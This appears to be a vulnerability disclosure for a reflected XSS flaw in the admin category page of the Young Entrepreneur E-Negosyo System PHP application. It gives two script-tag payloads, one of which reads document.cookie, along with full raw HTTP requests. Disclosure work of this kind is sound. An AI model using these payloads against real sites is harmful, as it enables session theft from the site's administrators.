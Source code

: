 # Young Entrepreneur E-Negosyo System v1.0 has Cross-site scripting (reflected)

BUG_Author: aroc

Website source address: https://www.sourcecodester.com/php/12684/young-entrepreneur-e-negosyo-system.html

Vulnerability File: /bsenordering/admin/category/index.php

GET parameter 'view' exists XSS vulnerability

Payload1:/bsenordering/admin/category/index.php?view=<script>alert(233)</script>

```
GET /bsenordering/admin/category/index.php?view=%3Cscript%3Ealert(233)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=b474rdfl9bppo3rms87201i42t
Connection: close
```

![image](https://github.com/Apeng96/bug_report/blob/main/xss1.png)

Payload2:/bsenordering/admin/category/index.php?view=<script>alert(document.cookie)</script>

```
GET /bsenordering/admin/category/index.php?view=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=b474rdfl9bppo3rms87201i42t
Connection: close
```

![image](https://github.com/Apeng96/bug_report/blob/main/xss2.png)
